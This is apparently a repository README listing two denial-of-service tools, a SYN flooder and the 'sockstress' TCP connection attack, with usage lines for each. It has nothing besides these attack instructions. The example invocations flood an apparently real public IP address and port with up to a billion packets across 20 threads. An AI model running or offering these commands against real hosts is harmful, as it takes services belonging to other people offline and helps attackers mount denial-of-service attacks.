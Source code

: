 ####synflood

ddos/yssyn/synflood

Usage:
./synflood <target ip> <target port> <pkt_then_sleep> <sleep_time> <pkt_sum> <thread_sum>
Example:
./synflood 112.74.12.29 8999 10000000 0 1000000000 20

####tcp connect

ddos/sockstress

Usage:
./sockstress <ip>:<port> <interface> [-p payload] [-d delay]
Example:
./sockstress 112.74.12.29:8999 eth0
